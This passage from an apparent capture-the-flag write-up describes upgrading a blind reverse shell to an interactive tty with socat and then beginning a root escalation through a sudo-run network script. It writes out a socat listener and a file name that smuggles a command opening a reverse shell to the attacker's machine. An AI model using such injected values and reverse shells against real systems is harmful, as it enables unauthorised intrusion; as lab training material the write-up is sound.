 It was around this time I realized that slumming it in a blind reverse shell was slowing me down, and it turned out that netcat's big brother [socat](https://linux.die.net/man/1/socat) was also on disk.

This allowed me to get an interactive tty, so I could see what the heck I was doing.

```bash
# on my attack machine - setup a listener
socat file:`tty`,raw,echo=0 tcp-listen:4243

# on the target shell create a world read/write/exec file
touch "aaa; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.77:4243"

# wait ~3 minutes for a shell to pop
```

## Root upgrade thanks to sudo and ifcfg

This gave me full access to guly's directory, and there was a .viminfo file residing there hinting of the existence of a script in `/usr/local/sbin/changename.sh`

![much nicer to have a fully interactive shell](socat-tty.png)

The `changeme` script builds an `ifcfg` setup script and does some input validation, presumably to prevent mistakes. Heh.

Just running it pretty quickly showed up that it needed to be run as root. This system had `sudo` installed, so I needed to find a way to run it.
